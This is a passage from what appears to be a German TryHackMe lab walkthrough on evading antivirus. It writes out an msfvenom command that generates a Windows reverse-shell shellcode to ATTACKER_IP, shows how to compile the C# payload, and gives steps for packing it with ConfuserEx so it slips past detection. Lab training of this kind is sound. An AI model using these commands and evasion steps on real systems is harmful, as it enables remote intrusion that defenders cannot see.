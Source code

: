 Dieser Payload nimmt einen Shellcode, der von msfvenom generiert wurde, und führt ihn in einem separaten Thread aus. Damit dies funktioniert, müssen Sie einen neuen Shellcode generieren und ihn in die Variable `shellcode` des Codes einfügen:
```cmd
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

Anschließend können Sie Ihren Payload auf dem Windows-Rechner mit dem folgenden Befehl kompilieren:
```cmd
C:\> csc UnEncStagelessPayload.cs
```

Sobald Sie eine funktionierende ausführbare Datei haben, können Sie versuchen, sie auf der THM Antivirus Check! Seite hochzuladen (Link auf dem Desktop). Sie sollte sofort vom AV markiert werden. Lassen Sie uns denselben Payload mit einem Packer versehen und sehen, was passiert.

Für diese Aufgabe werden wir den [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) Packer verwenden, da unsere Payloads auf `.NET` programmiert sind. Für Ihre Bequemlichkeit finden Sie eine Verknüpfung dazu auf Ihrem Desktop.

ConfuserEx wird Sie auffordern, die Ordner anzugeben, in denen es arbeiten soll. Stellen Sie sicher, dass Sie Ihren Desktop als Basisverzeichnis auswählen, wie im Bild unten gezeigt. Sobald das Basisverzeichnis eingerichtet ist, ziehen Sie die ausführbare Datei, die Sie packen möchten, auf die Oberfläche, und Sie sollten folgendes Ergebnis erhalten:  
![Confuser.Core Software-Benutzeroberfläche](Bilder/2024-07-05-Confuser.Core-Software-Benutzeroberfläche.png)

Lassen Sie uns zum Einstellungs-Tab gehen und unseren Payload auswählen. Sobald ausgewählt, klicken Sie auf die Schaltfläche "+" , um Einstellungen zu Ihrem Payload hinzuzufügen. Dadurch sollte eine Regel namens "true" erstellt werden. Stellen Sie sicher, dass Sie auch die Komprimierung aktivieren:  
![Erklärung für Confuser.Core Software-Benutzeroberfläche](Bilder/2024-07-05-Erklärung-für-Confuser.Core-Software-Benutzeroberfläche.png)
